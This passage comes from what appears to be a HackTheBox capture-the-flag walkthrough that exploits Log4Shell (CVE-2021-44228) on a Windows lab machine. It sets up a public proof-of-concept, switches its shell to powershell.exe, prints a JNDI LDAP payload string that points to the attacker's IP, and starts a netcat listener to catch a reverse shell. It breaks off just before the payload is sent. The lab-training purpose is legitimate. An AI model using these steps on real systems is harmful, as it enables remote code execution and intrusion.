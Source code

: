 Now, I will download [this tool](https://github.com/kozmer/log4j-shell-poc) to abuse log4j. But first we have to download the official jdk of java version 1.8.0_20 (file jdk-8u20-linux-x64.tar.gz) as the repository says. Download it and extract it in the same folder you cloned the repository with this command:

```bash
$ tar -xf jdk-8u20-linux-x64.tar.gz
```

Also, execute this command to have all the dependencies:

```bash
$ pip3 install -r requirements.txt 
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.6)
Collecting argparse (from -r requirements.txt (line 2))
  Downloading argparse-1.4.0-py2.py3-none-any.whl.metadata (2.8 kB)
Downloading argparse-1.4.0-py2.py3-none-any.whl (23 kB)
Installing collected packages: argparse
Successfully installed argparse-1.4.0
```

Then, you have to modify the poc.py to replace `String cmd="/bin/sh";` to `String cmd="powershell.exe"` due to the fact that it's a windows machine.

Now run the `poc.py` to start the ldap and http servers required to exploit log4j with the `--lport 443` and `--userip <your tun0 ip>` parameters to receive the shell on port 443 of the ip of your hackthebox vpn:

```bash
$ python3 poc.py --userip 10.10.14.221 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.221:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

Also spawn a nc listener on port 443:

```bash
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

Send the payload:
